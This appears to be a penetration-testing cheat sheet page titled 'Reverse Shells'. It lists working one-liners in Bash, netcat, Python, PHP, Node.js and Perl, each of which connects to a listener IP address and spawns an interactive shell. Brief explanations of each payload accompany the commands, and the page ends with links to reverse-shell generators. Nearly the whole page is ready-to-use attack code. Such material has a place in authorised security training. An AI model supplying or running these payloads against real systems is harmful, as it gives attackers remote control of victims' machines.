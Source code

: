 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shells

## Bash

{% tabs %}
{% tab title="classic" %}
```bash
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
{% endtab %}

{% tab title="mkfifo" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1337 >/tmp/f'
```
{% endtab %}
{% endtabs %}

## Netcat

```bash
/bin/nc -nv 192.168.45.155 9090 -e /bin/bash
```

## Python

To create a reverse shell with Python, we will create a socket, connect to our listener, duplicate the input, output, and error descriptors and call `/bin/sh` with `subprocess`.

{% code overflow="wrap" %}
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.155",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

## PHP

The below commands instruct PHP to run (`-r`) the command within quotes.

{% code overflow="wrap" %}
```bash
php -r '$sock=fsockopen("192.168.45.155",9090);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```
{% endcode %}

## Node.js

The initial command injection will place a malicious file in a world-writable directory (`/var/tmp`) that calls upon Node.js `child_process` and `exec()` functions. The latter will contain the Netcat reverse shell payload.

{% code overflow="wrap" %}
```bash
echo "require('child_process').exec('nc -nv 192.168.45.155 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js
```
{% endcode %}

## Perl

We import the `Socket` module, set up our IP and port, and pass these into a socket call. We then initialize the TCP connection (`connect()`), open channels for `STDIN`, `STDOUT`, and `STDERR`, and call `/bin/bash`.

{% code overflow="wrap" %}
```bash
perl -e 'use Socket;$i="192.168.45.155";$p=9090;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="revshells" %}
{% embed url="https://www.revshells.com/" %}
{% endtab %}

{% tab title="revshellgen" %}
{% embed url="https://github.com/t0thkr1s/revshellgen" %}
{% endtab %}
{% endtabs %}
